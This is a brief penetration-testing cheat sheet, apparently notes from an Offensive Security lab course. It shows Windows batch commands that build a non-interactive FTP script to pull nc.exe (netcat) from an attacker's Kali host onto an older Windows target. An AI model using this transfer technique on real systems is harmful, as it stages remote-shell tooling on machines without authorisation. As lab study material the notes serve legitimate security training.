 ## Using a FTP client on Windows to download and upload files from Kali

### Note : Be sure to configure the right IP, PORT and FILENAME
```bat
echo open 10.11.0.4 21> ftp.txt
echo USER offsec>> ftp.txt
echo lab>> ftp.txt
echo bin >> ftp.txt
echo GET nc.exe >> ftp.txt
echo bye >> ftp.txt

# This will execute the previous script
ftp -v -n -s:ftp.txt
```

## FTP Basic CheatSheet
![[FTP Basic Cheatsheet.png]]

### Note : This technique is mostly used on old Windows version (XP, 2003)